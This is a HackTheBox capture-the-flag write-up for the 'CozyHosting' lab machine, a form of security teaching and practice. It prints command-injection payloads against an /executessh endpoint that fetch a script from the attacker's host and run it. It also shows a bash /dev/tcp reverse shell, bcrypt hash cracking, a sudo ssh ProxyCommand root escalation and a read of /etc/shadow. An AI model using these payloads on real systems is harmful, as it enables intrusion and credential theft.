







# CozyHosting - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `8000`.

***User***: Discovered a `jar` file hosted on port `8000`. Extracted portal (port 80) credentials and DB credentials from the JAR file. Attained a reverse shell using command injection on the `username` field via the `/executessh` API. Cracked the `admin` password from the database and subsequently utilized it to SSH login as the `josh` user.

***Root***: After running `sudo -l`, it was determined that we can execute `/usr/bin/ssh *` as root. This allowed for the spawning of an interactive root shell via the ProxyCommand option.




## CozyHosting Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ nmap -sV -sC -oA nmap/CozyHosting 10.10.11.230
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-23 22:38 IDT
Nmap scan report for 10.10.11.230
Host is up (0.084s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80` (http://cozyhosting.htb), we see that the following web page is hosted:


And by browsing to port `8000` we get the following web page:



Upon executing the jar file, we observed it running the same application as on http://localhost:8080/:

```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ java -jar cloudhosting-0.0.1.jar 

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::                (v3.0.2)

2023-09-23T22:53:04.969+03:00  INFO 2952524 --- [           main] htb.cloudhosting.CozyHostingApp          : Starting CozyHostingApp v0.0.1 using Java 17.0.4 with PID 2952524 (/fdrive/Desktop/hackthebox/CozyHosting/cloudhosting-0.0.1.jar started by evyatar9 in /fdrive/Desktop/hackthebox/CozyHosting)
2023-09-23T22:53:04.982+03:00  INFO 2952524 --- [           main] htb.cloudhosting.CozyHostingApp          : No active profile set, falling back to 1 default profile: "default"
2023-09-23T22:53:08.125+03:00  INFO 2952524 --- [           main] .s.d.r.c.RepositoryConfigurationDelegate : Bootstrapping Spring Data JPA repositories in DEFAULT mode.
2023-09-23T22:53:08.544+03:00  INFO 2952524 --- [           main] .s.d.r.c.RepositoryConfigurationDelegate : Finished Spring Data repository scanning in 383 ms. Found 1 JPA repository interfaces.
2023-09-23T22:53:10.130+03:00  INFO 2952524 --- [           main] o.s.b.w.embedded.tomcat.TomcatWebServer  : Tomcat initialized with port(s): 8080 (http)
2023-09-23T22:53:10.154+03:00  INFO 2952524 --- [           main] o.apache.catalina.core.StandardService   : Starting service [Tomcat]
2023-09-23T22:53:10.155+03:00  INFO 2952524 --- [           main] o.apache.catalina.core.StandardEngine    : Starting Servlet engine: [Apache Tomcat/10.1.5]
2023-09-23T22:53:10.394+03:00  INFO 2952524 --- [           main] o.a.c.c.C.[Tomcat].[localhost].[/]       : Initializing Spring embedded WebApplicationContext
2023-09-23T22:53:10.397+03:00  INFO 2952524 --- [           main] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 4956 ms
2023-09-23T22:53:10.824+03:00  INFO 2952524 --- [           main] o.hibernate.jpa.internal.util.LogHelper  : HHH000204: Processing PersistenceUnitInfo [name: default]
2023-09-23T22:53:10.942+03:00  INFO 2952524 --- [           main] org.hibernate.Version                    : HHH000412: Hibernate ORM core version 6.1.6.Final
2023-09-23T22:53:11.296+03:00  WARN 2952524 --- [           main] org.hibernate.orm.deprecation            : HHH90000021: Encountered deprecated setting [javax.persistence.sharedCache.mode], use [jakarta.persistence.sharedCache.mode] instead
2023-09-23T22:53:11.621+03:00  INFO 2952524 --- [           main] com.zaxxer.hikari.HikariDataSource       : HikariPool-1 - Starting...

```

Through the use of [jadx](https://github.com/skylot/jadx), we can examine the JAR source code for the string password. This led us to discover the class `FakeUser`:
```java
package htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;
import org.springframework.web.servlet.support.WebContentGenerator;

@Component
/* loaded from: cloudhosting-0.0.1.jar:BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class */
public class FakeUser {
    @Scheduled(timeUnit = TimeUnit.MINUTES, fixedDelay = 5)
    public void login() throws IOException {
        System.out.println("Logging in user ...");
        Runtime.getRuntime().exec(new String[]{"curl", "localhost:8080/login", "--request", WebContentGenerator.METHOD_POST, "--header", "Content-Type: application/x-www-form-urlencoded", "--data-raw", "username=kanderson&password=MRdEQuv6~6P9", "-v"});
    }
}
```

The credentials `kanderson:MRdEQuv6~6P9` were identified. Upon logging in with these credentials, we gained access to the following dashboard:



At the bottom of the page, we encounter the following form:



As per the HTML source code, it's evident that the `Submit` button directs to the `/executessh` path:
```html
<form action="/executessh" method="post">
<div class="row mb-3">
	<label class="col-sm-2 col-form-label">Connection settings</label>
	<div class="col-sm-10">
		<div class="form-floating mb-3">
			<input name="host" class="form-control" id="host" placeholder="example.com">
			<label for="host">Hostname</label>
		</div>
		<div class="form-floating mb-3">
			<input name="username" class="form-control" id="username" placeholder="user">
			<label for="username">Username</label>
		</div>
	</div>
</div>
<div class="text-center">
	<button type="submit" class="btn btn-primary">Submit</button>
	<button type="reset" class="btn btn-secondary">Reset</button>
</div>
</form>
```

Upon searching for `/executessh` in the JAR file, we came across the following code:
```java
private final Pattern HOST_PATTERN = Pattern.compile("^(?=.{1,255}$)[0-9A-Za-z](?:(?:[0-9A-Za-z]|-){0,61}[0-9A-Za-z])?(?:\\.[0-9A-Za-z](?:(?:[0-9A-Za-z]|-){0,61}[0-9A-Za-z])?)*\\.?$");

@RequestMapping(method = {RequestMethod.POST}, path = {"/executessh"})
public void executeOverSsh(@RequestParam("username") String username, @RequestParam("host") String host, HttpServletResponse response) throws IOException {
	StringBuilder rbuilder = new StringBuilder("/admin?error=");
	try {
		try {
			try {
				validateHost(host);
				validateUserName(username);
				Process process = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", String.format("ssh -o ConnectTimeout=1 %s@%s", username, host)});
				new BufferedReader(new InputStreamReader(process.getErrorStream())).lines().forEach(line -> {
					if (!line.startsWith("Pseudo-terminal")) {
						rbuilder.append(line);
					}
				});
				response.sendRedirect(rbuilder.toString());
			} catch (Exception e) {
				rbuilder.append("ssh: Cannot connect to the host");
				response.sendRedirect(rbuilder.toString());
			}
		} catch (IllegalArgumentException exception) {
			rbuilder.append(exception.getMessage());
			response.sendRedirect(rbuilder.toString());
		}
	} catch (Throwable th) {
		response.sendRedirect(rbuilder.toString());
		throw th;
	}
}

private void validateUserName(String username) {
	if (username.contains(" ")) {
		throw new IllegalArgumentException("Username can't contain whitespaces!");
	}
}

private void validateHost(String host) {
	if (!this.HOST_PATTERN.matcher(host).matches()) {
		throw new IllegalArgumentException("Invalid hostname!");
	}
}
```

As observed, it executes the command `"/bin/bash", "-c", String.format("ssh -o ConnectTimeout=1 %s@%s", username, host)}` with our input. The code solely validates the `host`. We can potentially inject code into the `username` parameter, as it only checks that the `username` does not contain spaces.

The following payloads can be employed to obtain a reverse shell:
1. `host=127.0.0.1&username=|curl${IFS}http://10.10.14.14:8000/rev.sh>/tmp/rev.sh#`
2. `host=127.0.0.1&username=|bash${IFS}/tmp/rev.sh#`

Where `rev.sh` contains:

```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ cat rev.sh
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```

This results in a successful reverse shell:

```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from cozyhosting.htb [10.10.11.230] 57504
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ ls /home
josh
```

We've identified the presence of the `josh` user in `/home`.

Upon further examination of the JAR file, we came across the following credentials:



It's worth noting that we now have access to the database credentials:
```java
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's attempt to access the database using these credentials:
```console
app@cozyhosting:/tmp$ psql -d cozyhosting -U postgres -W -h localhost
psql -d cozyhosting -U postgres -W -h localhost
Password: Vg&nvzAQ7XxR
\dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

We've identified two hashes. Let's attempt to crack the `admin` hash:
```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:17 DONE (2023-09-24 01:12) 0.05589g/s 156.9p/s 156.9c/s 156.9C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We successfully uncovered the `admin` password, which is `manchesterunited`.

These credentials were verified for SSH access under the `josh` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/CozyHosting]
└──╼ $ ssh josh@cozyhosting.htb 
The authenticity of host 'cozyhosting.htb (10.10.11.230)' can't be established.
ECDSA key fingerprint is SHA256:dHlbSOhuGjzTNgvvNbEe2LXI3SsauTGXC/Y5kWTJKs4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cozyhosting.htb,10.10.11.230' (ECDSA) to the list of known hosts.
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 23 10:13:03 PM UTC 2023

  System load:           0.00341796875
  Usage of /:            55.5% of 5.42GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             296
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:3bae


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Sep 23 19:59:31 2023 from 10.10.14.14
josh@cozyhosting:~$ cat user.txt
4369f9c1cc06900884a662a42c6c9583
```

And we get the user flag `4369f9c1cc06900884a662a42c6c9583`.

### Root

Upon executing `sudo -l`, we observed the following output:
```console
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

As per the information provided in https://gtfobins.github.io/gtfobins/ssh/#sudo, running `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` allows us to spawn an interactive root shell via the ProxyCommand option:
```console
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
d27a8fec73079220a0ab0c76cb3bce38
```

And we get the root flag `d27a8fec73079220a0ab0c76cb3bce38`.

PDF password
```console
# cat /etc/shadow | grep root
$y$j9T$nK3A0N4wTEzopZkv8GQds0$NlR46AiiQOChoO1UNpiOYFIBHM7s956G8l8p/w15Sp2
```